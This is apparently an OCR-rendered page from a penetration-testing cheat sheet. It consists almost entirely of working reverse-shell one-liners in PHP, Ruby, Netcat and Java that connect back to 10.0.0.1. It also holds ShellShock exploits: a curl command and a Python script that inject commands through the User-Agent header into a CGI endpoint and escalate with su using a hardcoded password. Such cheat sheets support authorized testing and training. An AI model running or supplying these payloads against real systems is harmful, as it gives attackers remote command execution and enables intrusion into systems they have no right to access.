 ##### <span id="anchor-77"></span>PHP

```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i &lt;&3 &gt;&3 2&gt;&3");'
```

##### <span id="anchor-78"></span>Ruby

```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to\_i;exec sprintf("/bin/sh -i &lt;&%d &gt;&%d 2&gt;&%d",f,f,f)'
```

##### <span id="anchor-79"></span>Netcat

###### <span id="anchor-80"></span>Version 1

```
nc -e /bin/sh 10.0.0.1 1234
```

###### <span id="anchor-81"></span>Version 2

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2&gt;&1\|nc 10.0.0.1 1234 &gt;/tmp/f
```

##### <span id="anchor-82"></span>Java

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5&lt;&gt;/dev/tcp/10.0.0.1/2002;cat &lt;&amp;5 | while read line; do \$line 2&gt;&amp;5 &gt;&amp;5; done"] as String[])
p.waitFor()</td>
```

<span id="anchor-83"></span>ShellShock Reverse Shells

<span id="anchor-84"></span>Curl - One-Liner

```
curl -A "() { :;}; echo 'Content-type: text/html'; echo; /bin/ls -al /home/bynarr;" http://192.168.56.101:591/cgi-bin/cat
```

<span id="anchor-85"></span>Python Reverse Shell - ShellShock w/Sudo

```
import requests,sys
from base64 import b64encode
while True:
    user_command = b64encode(raw_input('$ ').strip())
    payload = b64encode("python -c 'import pty,subprocess,os,time;from base64 import b64decode;(master,slave)=pty.openpty();p=subprocess.Popen([\"/bin/su\",\"-c\",b64decode(\"%s\"),\"bynarr\"],stdin=slave,stdout=slave,stderr=slave);os.read(master,1024);os.write(master,\"fruity\\n\");time.sleep(0.1);print os.read(master,1024);'"%user_command)
    headers = {
   'User-Agent': '() { :; }; echo \'Content-type: text/html\'; echo; export PATH=$PATH:/usr/bin:/bin:/sbin; echo \'%s\' | base64 -d | bash 2&gt;&amp;1' % payload
    }
    print requests.get('http://192.168.56.101:591/cgi-bin/cat', headers=headers).text.strip()</p></td>
```
